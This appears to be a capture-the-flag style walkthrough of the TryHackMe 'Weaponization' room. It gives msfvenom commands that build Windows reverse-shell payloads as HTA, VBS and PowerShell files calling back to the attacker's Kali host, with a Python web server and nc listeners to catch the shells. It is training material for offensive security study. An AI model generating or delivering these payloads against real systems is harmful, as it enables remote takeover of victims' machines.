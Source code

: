 # Weaponization

**Room Link:** [https://tryhackme.com/room/weaponization](https://tryhackme.com/room/weaponization)



## Practice Area

**From the room:** The web application allows uploading payloads as VBS, DOC, PS1 files. In addition, if you provide a malicious HTA link, the web application will visit your link.

We will be exploiting this box with every mentioned above.&#x20;

### HTA

**Kali #1**

```
msfvenom -p windows/x64/shell_reverse_tcp LHOST=$KALI LPORT=443 -f hta-psh -o thm.hta
python2 -m SimpleHTTPServer 81
```

**Kali #2**

```
rlwrap nc -lvnp 443
```

<figure><img src="../../.gitbook/assets/image (15) (2) (2).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (4) (7) (1).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (1) (6) (4).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (79).png" alt=""><figcaption></figcaption></figure>

### VBS

**Kali #1**

```
 msfvenom -p windows/x64/shell_reverse_tcp LHOST=$KALI LPORT=443 -f vbs -o exploit.vbs
```

**Kali #2**

```
rlwrap nc -lvnp 443
```

<figure><img src="../../.gitbook/assets/image (1) (2) (1) (2).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (7) (6).png" alt=""><figcaption></figcaption></figure>

### DOC

Do when have access to a Windows machine with word.

### PS1

**Kali #1**

```
msfvenom -p windows/x64/shell_reverse_tcp LHOST=$KALI LPORT=443 -f psh -o exploit.ps1
```

**Kali #2**

```
rlwrap nc -lvnp 443
```

<figure><img src="../../.gitbook/assets/image (3) (1) (1) (4).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (14) (2).png" alt=""><figcaption></figcaption></figure>
